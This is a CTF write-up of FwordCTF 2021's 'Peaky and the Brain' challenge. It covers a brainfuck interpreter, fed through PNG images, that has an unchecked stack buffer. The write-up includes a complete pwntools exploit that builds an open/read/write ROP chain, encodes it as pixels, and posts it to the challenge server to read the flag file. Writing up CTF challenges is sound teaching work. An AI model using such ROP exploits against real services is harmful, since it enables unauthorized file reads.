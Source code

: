 ​​**Peaky and the Brain**

was a pwn challenge from FwordCTF 2021

basically, it was a web application write in python,

that accept a png picture as input, and a small text.

The interface looks like this. (a bit ugly I know..)

![](https://github.com/nobodyisnobody/write-ups/raw/main/Fword.CTF.2021/pwn/peaky.and.the.brain/pics/interface.png)

The image was converted to brainfuck according to pixel color values.

then the brainfuck was passed to a binary interpreter.

The text that was input in arg window on the webpage, was also passed to the interpreter,

and stored in a buffer on .bss at a fixed address, we will use it to pass the filename we want to read for the ROP.

the output of the interpreter was returned back in the web page.

the interpreter has a seccomp in place, that forbid execve (no shell exec),  socket (no connect back shellcode), mprotect (no shellcode so...)

![](https://github.com/nobodyisnobody/write-ups/raw/main/Fword.CTF.2021/pwn/peaky.and.the.brain/pics/seccomp.png)

as always with brainfuck challenge, the interpreter does not check boundaries when accessing his buffer on stack.

so we can write value after the 79 bytes buffer on stack , and modify the interpreter return address..

and write a ROP in stack, to do a simple open/read/write ROP, that will dump the flag to stdout,

the stdout output, will be returned to us on the webpage..

Here is the python code to do that so...

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import requests
import png
import StringIO

context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = ELF('./interpreter')
rop = ROP(exe)

# brainfuck instructions to color translation table
colors = {'>' : (255,0,0), '.' :  (0,255,0), '<' : (0,0,255), '+' : (255,255,0), '-' : (0,255,255), '[' : (255,0,188), ']' : (255,128,0), ',' : (102,0,204) }

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
pop_rdx = rop.find_gadget(['pop rdx', 'ret'])[0]

# simple rop open file, read it, write it to stdout
payload = p64(pop_rdi) + p64(0x4e5360) + p64(pop_rsi) + p64(0) + p64(pop_rdx) + p64(0) + p64(exe.symbols['open'])
payload += p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(0x4e5370) + p64(pop_rdx) + p64(100) + p64(exe.symbols['read'])
payload += p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(0x4e5370) + p64(pop_rdx) + p64(100) + p64(exe.symbols['write'])
payload += p64(exe.symbols['exit'])

# translate ROP payload to brainfuck instructions
code  = '>'*0x78	# first we advance in stack to reach return address
# write each qword with brainfuck
for c in payload:
  code += '[-]'+'+'*ord(c)+'>'

# generate png image from code
img = []
row = ()
for x in range(len(code)):
     row = row + colors[code[x]]
img.append(row)
with open('picture.png', 'wb') as f:
    w = png.Writer(len(code), 1, greyscale=False)
    w.write(f, img)

print('posting picture...')
url = "http://40.71.72.198:8080/"
files = {'file': open("picture.png","rb").read()}
data = {'text':'/data/flag.txt'}
r = requests.post(url, files=files, data=data)

print('FLAG:')
for line in StringIO.StringIO(r.text).readlines():
  if 'FwordCTF' in line:
    print(line.split(b'<p># ')[1])
```

and the code in action

![](https://github.com/nobodyisnobody/write-ups/raw/main/Fword.CTF.2021/pwn/peaky.and.the.brain/pics/gotflag.gif)

*nobodyisnobody still pwning things...*

